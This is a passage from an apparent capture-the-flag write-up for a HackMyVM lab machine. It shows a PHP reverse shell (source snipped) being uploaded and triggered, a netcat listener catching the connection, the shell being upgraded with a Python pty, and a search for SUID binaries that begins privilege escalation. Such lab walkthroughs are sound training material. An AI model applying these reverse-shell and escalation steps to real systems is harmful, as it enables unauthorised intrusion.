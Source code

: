 ```bash

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
<--SNIP-->
```

Upload successfully. Browsing to: http://hellfire.t4l0s.hmv/archivos/shell.php gave me a reverse shell:

```bash
garffff@garffff:~/hackmyvm/principle$ sudo nc -lvp 8888
Listening on 0.0.0.0 8888
Connection received on hellfire.t4l0s.hmv 37764
Linux principle 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64 GNU/Linux
 14:03:10 up 26 min,  0 user,  load average: 0.00, 0.02, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Upgrading the shell connection:

```bash
$ whereis python3
python3: /usr/bin/python3 /usr/lib/python3 /etc/python3 /usr/share/python3 /usr/share/man/man1/python3.1.gz
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@principle:/$ ^Z
[1]+  Stopped                 sudo nc -lvp 8888
garffff@garffff:~/hackmyvm/principle$ stty raw -echo
sudo nc -lvp 8888ackmyvm/principle$ 


www-data@principle:/$ 
```

### Privilege Escalation to first user (Talos)

Looking for setuid bit set, I saw the `find` command as this bit set. Executing this command will run as Talos:

```bash
www-data@principle:~/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/find
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
www-data@principle:~/html$ ls -lash /usr/bin/find
ls -lash /usr/bin/find
220K -rwsr-xr-x 1 talos root 220K Jan  8  2023 /usr/bin/find
```

